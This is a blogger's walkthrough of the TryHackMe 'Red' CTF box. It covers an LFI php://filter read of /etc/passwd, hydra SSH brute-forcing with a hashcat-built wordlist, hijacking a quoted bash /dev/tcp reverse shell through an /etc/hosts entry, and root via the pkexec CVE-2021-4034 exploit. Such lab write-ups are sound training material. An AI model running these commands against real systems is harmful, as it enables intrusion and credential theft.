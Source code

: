 +++
title = "THM - Red writeup"
date = "2024-05-02T17:15:30+02:00"
tags = ["tryhackme", "linux", "path_traversal", "nmap", "hashcat", "hydra", "CVE-2021-4034"]
aliases = ["/2024/05/02/RED/"]
categories = ["Pentesting", "Writeup", "CTF"]
showTableOfContents = true
showHeadingAnchors = true
heroStyle = "background"
showHero = true
+++

Hi,

been a long time since my last post. I have done some easy boxes on [TryHackMe](https://tryhackme.com).
And this is the writeup for one of those boxes I have done: [Red](https://tryhackme.com/r/room/redisl33t)

## Information Gathering

As always, lets start with nmap. I have my routine in using nmap:
First I set the current target ip into a variable

```bash
TARGET="TARGET_IP"
# or for fish shell, which I have choose as my default shell
set TARGET TARGET_IP
```


With this, I always use a default port scan followed by a service scan:

```bash
nmap -Pn $TARGET -oN ports && nmap -Pn -sC -sV -p $(grep '.*(?=\/tcp)' ports | tr '\n' ',') $TARGET -oN services
```


I only use `-p-` when I'm stuck and desperate.

This scan reveals only two open ports:

- 80 is running a webserver
- 22 running ssh

## Website

![atlas_website.png](/images/red/atlas_website.png)

As this is a CTF, I searched for hidden hints on the website, but couldn't find any. But one thing got my attention,
the url provides a variable:

```
?page=
```


So I tried some LFI techniques and run [feroxbuster](https://github.com/epi052/feroxbuster) but sadly there where no useful outputs.

Then I tried [php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter) and got some useful outputs.

```
curl http://$TARGET:80/index.php?page=php://filter/resource=/etc/passwd
```


![curl_passwd.png](/images/red/curl_passwd.png)

Now there is our way in!

## First flag

I tried nearly everything, to get more information or even a real foothold without luck.

```
/home/blue/.ssh/
/home/red/.ssh/
/etc/crontab
...
```


But then I found something on blue's home directory:

![bash_history.png](/images/red/bash_history.png)

Sadly the passlist.txt file was deleted, but the way to build it is well documentated and the .reminder file still persists and is readable.

Now to build our wordlist (yes I tried it with rockyou.txt before, its a waste of time) we have to do the same thing, as red obviously did.

> Download the ruleset for hashcat if you miss it on your system: [best64.rule](https://github.com/CarlosLannister/OwadeReborn/blob/master/owade/fileAnalyze/hashcatLib/best64.rule)


Now run the same command locally:

```bash
hashcat --stdout .reminder -r ./best64.rule > passlist.txt
```


With the wordlist used to set the password of blue, we can now try to crack it against ssh.

```bash
hydra -I -l blue -P ./passlist.txt ssh://$TARGET
```


It will not take for long to find the password of the user blue:

![crack_blue.png](/images/red/crack_blue.png)

Now log in via ssh and print out the first flag, which lays in /home/blue directory.

## Second flag

While I was searching for an opportunity for lateral movement, my session disconnected...

![suprise.png](/images/red/suprise.png)

And there are print outs of the user red. (simulated, for sure)

I checked for SUID, cron jobs and misconfigurations in files, but nothing useful there. And while looking around, "red" kept kicking me out of the shell. Everytime I was kicked out, I had to bruteforce the password of user blue, because it had been changed. And yeah, I already tried to change the password to avoid being kicked out:

![pwchange.png](/images/red/pwchange.png)

Next I looked into the running processes, and couldn't find any suspicious process running by root, but one running by red:

```
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```


Obviously a reverse shell to a specific fqdn. Checking the `/etc/hosts` file and it contains the fqdn. I couldn't figure out where the command lays on the system. Even if I locate the command's executable, blue may not have the permission to read or execute the command.

After a while, I realized something! Every time when "red" writes a message to us, one of the two running reverse shell instances will be replaced from a new instance of the same reverse shell command:

![cronjob.png](/images/red/cronjob.png)

This means, that there is some cronjob running and it calls the command. Because there are two instances of the reverse shell command, we may have luck and the second command could be used to get a shell as user "red". In most modern system, if the fqdn resolves to multiple ips and the first ip is busy with an instance of the command, subsequent instances of the same command may attempt to connect to the other ip addresses associated with the fqdn.

Ok, fine. I just need to add my ip into the `/etc/hosts` file then. But there is one problem with that, the hosts file can't be written with texteditor like nano or vi. By using `lsattr` it can be seen that the file has `append-only` permission. So I had to use some sort of redirection.

```bash
echo "<MY-IP> redrules.thm" >> /etc/hosts
```


Running a netcat listener on port 9001, I was able to get a shell as user "red".

## Root flag

The root flag is an easy one, because on user red's home, there is a `.git` directory where an executable called `pkexec` lays.

![pkexecVersion.png](/images/red/pkexecVersion.png)

By looking up the version of pkexec on google, there can be seen a vulnerability: CVE-2021-4034

Most of the PoC's are written in C, but I searched for a python version of the exploit, to avoid the building process, and found one on github: [joeammond's CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034)

For this PoC to work, I had to change the last line, which is referring to the pkexec location. After that, just upload it to the target with a python http server open.

```bash
python -m http.server 9090
```


![rootID.png](/images/red/rootID.png)

Now as root the root flag can be printed out easely...

Good luck :)

---

{{<figure
src="/images/darksoulsMeme.png"
nozoom=true
>}}
